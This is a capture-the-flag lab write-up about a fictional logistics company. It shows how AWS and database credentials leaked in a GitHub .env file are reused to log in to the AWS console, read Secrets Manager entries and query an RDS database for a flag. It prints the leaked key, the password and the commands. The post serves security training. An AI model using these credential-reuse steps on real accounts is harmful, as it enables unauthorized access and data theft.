 ```yaml
---
layout: post
title:  "Leverage Leaked Credentials For Pwnage"
date:   2024-06-24 21:39:54 +0530
---
```


# Initial Entry

As an Initial Entry point we have been provided with the following details 

  

|     |     |
| --- | --- |
| Type | Value |
| Github | [https://github.com/huge-logistics/aws-react-app](https://github.com/huge-logistics/aws-react-app)<br> |

  

The scenario here is ever-shifting world of logistics, Huge Logistics has emerged as an undisputed global leader. Yet, every Goliath has its vulnerabilities. Whispered rumors in cybersecurity circles suggest that amidst the vast digital sprawl of Huge Logistics, there might lie unnoticed weaknesses. As a seasoned security consultant, your mission is set: Navigate the labyrinth of Huge Logistics' GitHub repositories, looking for the smallest chink in their armor. Dive deep, analyze thoroughly, and leave no stone unturned. Can you spot what others have missed?

  

## Solution 

In the following repository, where they have been provided with `.env` file and inspecting that we found two interesting things which will be useful for us one is the AWS access key which is `AKIAWHEOTHRFVXYV44WP`  

  

![]({{ site.baseurl }}/assets/images/lev1.png) 

  

With the aws cli module, we can retrieve the account ID of this access key with the following command `aws sts get-access-key-info --access-key <access key>` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP --profile nithissh
{
    "Account": "427648302155"
}
```

  

In the same `.env`  file we also have database credentials with username as `jose`  and password as `DevOps0001!` and let’s do one thing like credential stuffing attack on AWS login console.. We know the AWS account ID right so through IAM login, fill up the account ID as `427648302155` later the username and password as `jose` and `DevOps0001!` 

  

![]({{ site.baseurl }}/assets/images/lev2.png) 

  

Once we click on login and suprisingly the method worked out and logged in as a IAM user called `jose` and exploring the console they used `AWS secrets manager` may be they would have used recently 

  

![]({{ site.baseurl }}/assets/images/lev3.png) 
  

There are 4 secrets being stored over there and out of which two are interesting one is [employee-database-admin](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and [employee-database](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) 

  

Accessing the [`employee-database-admin`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) is restricted here and particularly for this account

  

![]({{ site.baseurl }}/assets/images/lev4.png) 
  

But we can able to access [`employee-database`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and retrieve the secrets like DB name, DB username and password.. Also the hostname 

  

![]({{ site.baseurl }}/assets/images/lev5.png)  

  

With the following details and we connect it through `mysql-client` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ mysql -u reports -h employees.cwqkzlyzmm5z.us-east-1.rds.amazonaws.com -
D employees -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 496468
Server version: 5.5.5-10.6.10-MariaDB managed by https://aws.amazon.com/rds/

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

We can list the tables using `show tables;` query and found that `flag` row exists which is obviously our objective to capture 

  

```sql
mysql> show tables;
+---------------------+
| Tables_in_employees |
+---------------------+
| countries           |
| departments         |
| dependents          |
| employees           |
| flag                |
| jobs                |
| locations           |
| regions             |
+---------------------+
8 rows in set (0.25 sec)
```

  

Now finally, you can the get flag through `SELECT * FROM flag`  and it will dump out our flag

  

```sql
mysql> SELECT * FROM flag;
+----------------------------------+
| flag                             |
+----------------------------------+
| d0e4b22365ad230c53c4ffc269dc0202 |
+----------------------------------+
1 row in set (0.24 sec)
```